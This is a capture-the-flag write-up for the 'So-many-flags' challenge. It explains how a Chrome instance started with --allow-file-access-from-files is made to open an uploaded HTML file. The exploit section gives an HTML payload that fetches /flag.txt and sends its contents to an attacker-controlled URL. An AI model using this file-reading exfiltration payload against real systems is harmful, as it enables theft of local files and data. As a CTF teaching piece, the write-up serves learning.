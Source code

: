 # So-many-flags Writeup from L.A.R.S.

## Setup

As always, for the local setup we run the docker container:
```bash
docker build -t so-many-flags . && docker run -p 1337:1337 -t so-many-flags
```

And for remote we use the suggested command:
```bash
ncat --ssl so-many-flags.ctf.kitctf.de 443
```
This gives us an instance for 29 minutes -- that should do!


## Looking around

### Dockerfile

From the `Dockerfile` we can learn that chrome is installed (together with some fonts) and a node server (using `package.json` and `server.js`) is started up.
The flag seems to be stored in `/flag.txt`.

### server.js

From the `server.js` we can learn that there's an upload interface for files that are stored as some random name ending in `.html`. After uploading chrome is started with all the flags from `flags.txt`, opening the file we uploaded.
After some time it's killed again.

### flags.txt

In `flags.txt` we do indeed seem to find all the flags available. Notably that also includes the flag `--allow-file-access-from-files`.

## Exploiting

### Just upload it!

Due to the `--allow-file-access-from-file` flag, we *should* be able to make the launched chrome browser open the flag and send it to some endpoint, where we can receive it.

That's quite straight forward:
```html
<html>
    <script>
        fetch("/flag.txt")
            .then((res) => res.text())
            .then((text) => fetch(`https://<some-url-where-we-can-view-access-logs>?data=${text}`))
    </script>
</html>
```

And indeed, uploading this as file, we receive the `GPNCTF{fake_flag}` in our webserver from the local instance.
If we then upload it to the remote server, we do get the flag. **Yay!**
